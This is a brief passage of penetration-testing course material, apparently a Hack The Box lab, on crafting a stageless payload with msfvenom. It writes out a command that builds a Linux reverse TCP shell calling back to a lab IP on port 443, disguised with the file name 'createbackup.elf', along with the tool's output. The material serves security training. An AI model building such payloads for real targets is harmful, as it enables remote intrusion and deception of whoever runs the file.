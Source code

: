 
## Building A Stageless Payload

Now let's build a simple stageless payload with msfvenom and break down the command.

#### Build It

  Crafting Payloads with MSFvenom

```shell-session
hidalg0dd@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

